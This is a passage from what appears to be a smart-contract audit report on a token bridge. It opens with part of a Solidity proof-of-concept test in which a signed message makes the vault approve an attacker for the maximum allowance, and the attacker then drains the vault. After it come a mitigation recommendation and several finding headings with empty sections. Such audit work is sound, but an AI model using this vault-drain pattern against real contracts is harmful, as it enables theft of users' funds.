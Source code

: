 ```javascript
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

**Recommended Mitigation:** Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the L1Vault contract.

### [H-5] CREATE opcode does not work on zksync era

**Description:**

**Impact:**

**Proof of Concept:**

**Recommended Mitigation:**

### [H-6] ``L1BossBridge::depositTokensToL2's` DEPOSIT_LIMIT check allows contract to be DoS'd

**Description:**

**Impact:**

**Proof of Concept:**

**Recommended Mitigation:**

### [H-7] The `L1BossBridge::withdrawTokensToL1` function has no validation on the withdrawal amount being the same as the deposited amount in `L1BossBridge::depositTokensToL2`, allowing attacker to withdraw more funds than deposited

**Description:**

**Impact:**

**Proof of Concept:**

**Recommended Mitigation:**

### [H-8] `TokenFactory::deployToken` locks tokens forever

**Description:**

**Impact:**

**Proof of Concept:**
